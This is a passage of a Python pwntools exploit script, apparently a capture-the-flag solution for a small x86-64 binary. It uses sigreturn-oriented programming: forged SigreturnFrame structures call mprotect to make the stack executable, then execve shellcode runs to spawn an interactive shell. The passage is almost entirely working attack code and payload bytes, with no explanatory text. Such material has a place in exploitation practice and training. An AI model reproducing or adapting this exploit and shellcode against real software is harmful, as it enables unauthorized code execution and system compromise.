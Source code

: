 ```python
frame.rip = syscall_addr

payload = p64(start_addr)
payload += p64(syscall_addr)
payload += str(frame)
r.send(payload)

raw_input("joker")
payload = p64(0x4000B3)#fill
payload += p64(0x4000B3)#fill
payload = payload[:15]
r.send(payload)#set rax=sys_rt_sigreturn

frame = SigreturnFrame()
frame.rax = constants.SYS_mprotect
frame.rdi = (stack_addr&0xfffffffffffff000)
frame.rsi = 0x1000
frame.rdx = 0x7
frame.rsp = stack_addr + 0x108
frame.rip = syscall_addr
payload = p64(start_addr)
payload += p64(syscall_addr)
payload += str(frame)

payload += p64(stack_addr + 0x108 + 8)
#payload += cyclic(0x100)#addr ====> start_addr + 0x108
payload += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"#shellcode

r.send(payload)

raw_input("joker")
payload = p64(0x4000B3)#fill
payload += p64(0x4000B3)#fill
payload = payload[:15]
r.send(payload)#set rax=sys_rt_sigreturn

r.interactive()
```

